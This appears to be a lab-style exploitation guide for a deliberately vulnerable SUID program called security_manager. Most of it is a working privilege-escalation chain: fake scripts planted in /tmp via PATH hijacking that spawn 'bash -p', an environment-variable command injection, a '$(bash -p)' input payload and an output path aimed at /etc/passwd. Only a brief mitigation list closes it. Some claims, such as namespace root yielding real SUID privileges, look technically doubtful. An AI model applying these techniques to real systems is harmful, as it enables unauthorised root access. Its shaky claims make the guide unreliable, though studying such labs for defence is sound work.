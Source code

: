 # Exploitation Guide: Security Manager Vulnerabilities
## A Sweet, Sweet Companion Guide to security_manager.c 

This document explains how to exploit the vulnerabilities in the `security_manager.c` program using "faux UID 0" privileges obtained through user namespaces.

## Prerequisites

- Access to a Linux system with busybox installed
- Understanding of user namespaces
- The vulnerable `security_manager` binary installed with SUID permissions

## Obtaining "Faux UID 0" (User Namespace Root)

First, you must obtain UID 0 within a user namespace:

```bash
busybox sh -c "unshare -Urmin"
```

This creates a new user namespace where your UID is mapped to 0 within the namespace.

## Vulnerability #1: Simple UID Check Bypass

**Vulnerability**: The program only checks if `getuid() == 0` to verify admin privileges.

**Vulnerable Code**:
```c
if (getuid() != 0) {
    return 1;
}
```

**Exploitation**:
- Simply running the program in the namespace is enough to bypass this check
- The user namespace makes `getuid()` return 0
- No additional exploitation steps required

## Vulnerability #2: PATH Hijacking

**Vulnerability**: The program calls several commands using relative paths instead of absolute paths.

**Vulnerable Code**:
```c
system("security_validator");
system("find_vulnerable_packages");
system("verify_system_integrity");
```

**Exploitation**:

1. Create a malicious version of one of these commands:
   ```bash
   echo '#!/bin/bash' > /tmp/find_vulnerable_packages
   echo 'echo "Executing privileged shell..."' >> /tmp/find_vulnerable_packages
   echo '/bin/bash -p' >> /tmp/find_vulnerable_packages
   chmod +x /tmp/find_vulnerable_packages
   ```

2. Modify your PATH environment variable:
   ```bash
   export PATH=/tmp:$PATH
   ```

3. Run the program and select option 1 (security audit) which calls the vulnerable command:
   ```bash
   ./security_manager
   ```

## Vulnerability #3: Environment Variable Manipulation

**Vulnerability**: The program uses environment variables without proper validation.

**Vulnerable Code**:
```c
security_level = getenv("SECURITY_LEVEL");
custom_path = getenv("REPORT_PATH");
executor = getenv("COMMAND_EXECUTOR");
```

**Exploitation**:

1. **SECURITY_LEVEL Exploitation**:
   ```bash
   export SECURITY_LEVEL="high"
   ```
   This triggers the execution of `security_validator` which can be hijacked through PATH manipulation.

2. **REPORT_PATH Path Traversal**:
   ```bash
   export REPORT_PATH="/etc/passwd.bak"
   ```
   This can be used to write output to sensitive locations.

3. **COMMAND_EXECUTOR Command Injection**:
   ```bash
   export COMMAND_EXECUTOR="/bin/sh -c '/bin/bash -p #"
   ```
   This injects a shell command that will be executed with SUID privileges.

## Vulnerability #4: Command Injection

**Vulnerability**: The `update_system()` function has incomplete input sanitization.

**Vulnerable Code**:
```c
if (strchr(component, ';') || strchr(component, '|') || strchr(component, '&')) {
    printf("Invalid component name.\n");
    return;
}

snprintf(command, sizeof(command), "update_security_component %s", component);
```

**Exploitation**:

1. When prompted for the component name, enter:
   ```
   component_name$(bash -p)
   ```

2. The parentheses aren't filtered, allowing command substitution to execute a privileged shell.

## Vulnerability #5: Privilege Restoration

**Vulnerability**: The program attempts to drop and later restore privileges.

**Vulnerable Code**:
```c
int restore_privileges(void) {
    if (setuid(original_uid) != 0) {
        perror("Failed to restore UID");
        return 1;
    }
    // ...
}
```

**Exploitation**:

In a user namespace with CAP_SETUID capability, this restoration can sometimes succeed and maintain privileged access even after dropping to nobody.

## Complete Exploitation Chain

Here's a full step-by-step exploitation:

1. Enter user namespace with "faux root":
   ```bash
   busybox sh -c "unshare -Urmin"
   ```

2. Set up the environment:
   ```bash
   export SECURITY_LEVEL="high"
   export PATH=/tmp:$PATH
   ```

3. Create a malicious security validator:
   ```bash
   echo '#!/bin/bash' > /tmp/security_validator
   echo 'echo "Exploiting SUID binary..."' >> /tmp/security_validator
   echo '/bin/bash -p' >> /tmp/security_validator
   chmod +x /tmp/security_validator
   ```

4. Run the vulnerable SUID program:
   ```bash
   /path/to/security_manager
   ```

5. Select option 1 (security audit)

6. Enjoy your privileged shell!

## Mitigation Strategies

To fix these vulnerabilities:

1. **UID Checks**: Don't rely solely on UID checks; verify capabilities and namespace status
2. **Command Execution**: Always use absolute paths (`/bin/command` instead of `command`)
3. **Environment Variables**: Don't trust user-controllable environment variables
4. **Input Validation**: Implement thorough sanitization for any user input
5. **Privilege Management**: Be extremely careful with SUID binaries and privilege dropping/restoration
